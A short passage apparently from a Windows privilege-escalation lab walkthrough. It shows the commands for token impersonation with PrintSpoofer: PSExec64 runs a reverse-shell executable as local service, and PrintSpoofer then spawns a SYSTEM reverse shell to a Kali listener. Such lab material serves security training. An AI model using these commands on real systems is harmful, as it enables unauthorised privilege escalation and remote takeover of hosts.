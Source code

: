 ## Token Impersonation - PrintSpoofer

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting 
an elevated command prompt (Right-click -> Run as Administrator) and using `PSExec64.exe` to trigger the `reverse.exe` 
executable created with the permissions of the `local service` account:

    C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

Start another listener on Kali.
And in the `local service` reverse shell triggered, run the PrintSpoofer exploit to trigger a second reverse shell 
running with `SYSTEM` privileges (update the IP address with your Kali IP accordingly):

    C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
